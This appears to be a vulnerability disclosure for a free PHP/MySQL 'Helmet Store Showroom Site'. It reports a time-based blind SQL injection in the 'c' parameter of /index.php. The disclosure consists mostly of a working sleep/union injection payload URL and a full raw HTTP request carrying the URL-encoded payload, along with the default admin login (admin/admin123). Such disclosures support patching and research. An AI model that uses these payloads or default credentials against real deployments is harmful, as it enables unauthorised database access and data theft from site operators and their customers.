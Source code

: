# Helmet Store Showroom Site System - SQL injection

Helmet Store Showroom Site exists to contain a SQL injection vulnerability via the 'c' parameter at /index.php

username:admin password:admin123 ----> {ip}/index.php

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

/index.php has SQL injection

Payload: http://localhost/CVE/hss/?page=categories&c=6'and(select*from(select+sleep(3))a/**/union/**/select+1)='

SQL injection because $c can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/1.png)

## Payload

```sql
GET /CVE/hss/?c=6%27and%28select%2Afrom%28select%2Bsleep%280%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27&page=categories HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/3.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/2.png)
